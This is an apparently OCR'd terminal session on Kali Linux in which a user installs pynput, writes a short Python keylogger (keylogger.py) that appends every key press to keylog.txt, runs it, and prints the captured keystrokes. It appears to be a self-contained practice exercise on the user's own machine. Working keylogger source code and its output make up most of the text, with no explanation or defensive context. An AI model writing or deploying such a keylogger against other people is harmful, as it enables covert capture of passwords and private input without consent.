 ┌──(kali㉿kali)-[~]
└─$ sudo apt install python3 python3-pip python3-venv -y
[sudo] password for kali: 
python3 is already the newest version (3.13.5-1).
python3-pip is already the newest version (25.2+dfsg-1).
python3-venv is already the newest version (3.13.5-1).
The following packages were automatically installed and are no longer required:
  libbluray2  libgdata-common  libgeos3.13.1  libogdi4.1          libsframe1   libsoup-2.4-1      libtheora0     libtheoraenc1  libvpx9                python3-wheel-whl
  libgdal36   libgdata22       libhdf4-0-alt  libqt5ct-common1.8  libsigsegv2  libsoup2.4-common  libtheoradec1  libudfread0    python3-packaging-whl
Use 'sudo apt autoremove' to remove them.

Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 3
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ python3 -m venv venv
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ source venv/bin/activate
                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ pip install pynput
Requirement already satisfied: pynput in ./venv/lib/python3.13/site-packages (1.8.1)
Requirement already satisfied: six in ./venv/lib/python3.13/site-packages (from pynput) (1.17.0)
Requirement already satisfied: evdev>=1.3 in ./venv/lib/python3.13/site-packages (from pynput) (1.9.2)
Requirement already satisfied: python-xlib>=0.17 in ./venv/lib/python3.13/site-packages (from pynput) (0.33)
                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ nano keylogger.py
from pynput import keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f" {key} ")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
                                                                                                                                                                                                                     
┌──(venv)─(kali㉿kali)-[~]
└─$ python3 keylogger.py
^CTraceback (most recent call last):
  File "/home/kali/keylogger.py", line 14, in <module>
    listener.join()
    ~~~~~~~~~~~~~^^
  File "/home/kali/venv/lib/python3.13/site-packages/pynput/util/init_.py", line 295, in join
    super(AbstractListener, self).join(timeout, *args)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.13/threading.py", line 1094, in join
    self._handle.join(timeout)
    ~~~~~~~~~~~~~~~~~^^^^^^^^^
KeyboardInterrupt

                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ cat keylog.txt
 Key.enter  Key.ctrl  Key.alt  Key.alt tbgyvuyvbh Key.space bhouvuv Key.enter cd Key.enter 6f7 Key.backspace  Key.backspace  Key.backspace  Key.backspace  Key.backspace  Key.backspace ls Key.enter  Key.alt  Key.tab  Key.enter  Key.enter  Key.enter  Key.ctrl c Key.backspace  Key.backspace hgvdgch Key.enter jhbshveggdwvc Key.enter  Key.ctrl cc Key.backspace  Key.ctrl cy Key.shift HA Key.caps_lock ebewgyiuhrugiuahiu Key.caps_lock iuogfpogkluhihdiojui[odpuhuphgdiuhuhpus]]iojkjgnn[dihb[o]]htilidluhdiuuigiuhihg Key.enter  Key.ctrl c Key.ctrl  Key.ctrl  Key.alt tiokjbjva'n'j'fjv'nqejng[ligbli]knbgwhvknkj Key.enter yviio Key.enter  Key.ctrl c                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$
